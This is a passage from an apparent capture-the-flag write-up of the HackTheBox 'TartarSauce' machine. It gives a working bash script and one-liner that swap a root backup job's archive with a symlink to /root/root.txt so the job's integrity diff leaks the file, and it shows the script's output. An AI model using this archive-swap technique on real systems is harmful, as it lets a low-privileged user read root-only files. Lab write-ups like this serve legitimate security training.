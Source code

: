     # create new archive
    tar czf $fn var
    
    # put it back, and clean up
    mv $fn $cur
    rm $fn
    rm -rf var
    
    # wait for results
    echo "Waiting for new logs..."
    tail -f /var/backups/onuma_backup_error.txt
    

Now, upload this to target and run it. I’ll name it `.b.sh` for opsec:

    
    
    onuma@TartarSauce:/dev/shm$ ./.b.sh
    ./.b.sh
    Waiting for archive filename to change...
    File changed... copying here
    Waiting for new logs...
    ------------------------------------------------------------------------
    Integrity Check Error in backup last ran :  Thu Oct 18 19:42:26 EDT 2018
    ------------------------------------------------------------------------
    /var/tmp/.02af91fa0edeab13fce3962cddc45efefc22da67
    diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
    1,7c1
    < User-agent: *
    < Disallow: /webservices/tar/tar/source/
    < Disallow: /webservices/monstra-3.0.4/
    < Disallow: /webservices/easy-file-uploader/
    < Disallow: /webservices/developmental/
    < Disallow: /webservices/phpmyadmin/
    <
    ---
    > e79abdab...
    

And there’s the flag.

As a one-liner, it looks like this:

    
    
    onuma@TartarSauce:/dev/shm$ cd /dev/shm; start=$(find /var/tmp -maxdepth 1 -type f -name ".*"); cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); while [ "$start" == "$cur" -o "$cur" == "" ] ; do sleep 10; cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); done; echo "File changed... copying here"; cp $cur .; fn=$(echo $cur | cut -d'/' -f4); tar -zxf $fn; rm var/www/html/robots.txt; ln -s /root/root.txt var/www/html/robots.txt; rm $fn; tar czf $fn var; mv $fn $cur; rm $fn; rm -rf var
    File changed... copying here
    